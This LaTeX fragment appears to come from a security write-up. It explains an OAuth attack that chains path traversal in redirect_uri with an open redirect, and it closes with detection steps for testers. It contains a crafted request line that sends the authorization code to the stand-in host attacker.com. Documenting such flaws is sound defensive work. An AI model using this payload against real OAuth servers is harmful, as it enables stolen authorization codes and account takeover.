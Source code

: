 \documentclass[12pt,a4paper]{article}
\begin{document}
\subsubsection{Step-by-Step Exploitation (Path Traversal)}
\begin{enumerate}
    \item Find a whitelisted domain, e.g., \texttt{https://app.com/oauth-callback}.
    \item Construct a malicious \texttt{redirect\_uri} that uses path traversal to redirect to an open redirect endpoint: \\
    \texttt{https://app.com/oauth-callback/../post/next?path=https://attacker.com}.
    \item If the server allows that, the authorization code will be sent to \texttt{https://attacker.com} via the open redirect.
    \item Attacker logs the code and uses it.
\end{enumerate}

\subsubsection{HTTP Request Example}
\begin{lstlisting}
GET /auth?client_id=123&redirect_uri=https://app.com/oauth-callback/../post/next?path=https://attacker.com&response_type=code
\end{lstlisting}

\subsubsection{Attack Diagram}


\subsubsection{Impact}
Authorization code leakage, account takeover.

\subsubsection{Detection Methodology}
\begin{itemize}
    \item Try to modify \texttt{redirect\_uri} to a domain you control.
    \item Test for path traversal, open redirect chaining, and subdomain takeover.
    \item Observe if the Authorization Server redirects with a code.
\end{itemize}
\end{document}
